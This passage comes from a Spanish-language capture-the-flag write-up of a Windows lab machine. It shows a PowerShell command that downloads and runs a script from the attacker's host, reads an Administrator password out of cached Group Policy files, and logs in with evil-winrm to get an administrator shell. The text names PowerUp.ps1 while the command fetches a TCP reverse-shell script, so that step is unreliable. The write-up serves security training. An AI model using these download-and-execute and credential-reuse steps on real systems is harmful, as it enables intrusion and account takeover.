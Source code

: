 ```
# pyhton -m http.server 80
```

Desde la `máquina víctima` nos `descargamos` y `ejecutamos` el script `PowerUp.ps1`

```
PS C:\Windows\Temp\Privesc> IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.23/Invoke-PowerShellTcp.ps1")
```

Nos ha `encontrado` una `credencial` del usuario `Administrator` en `C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml`

```
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

Nos `conectamos` como el usuario `Administrator` a la máquina víctima

```
# evil-winrm -i 10.129.255.12 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
```
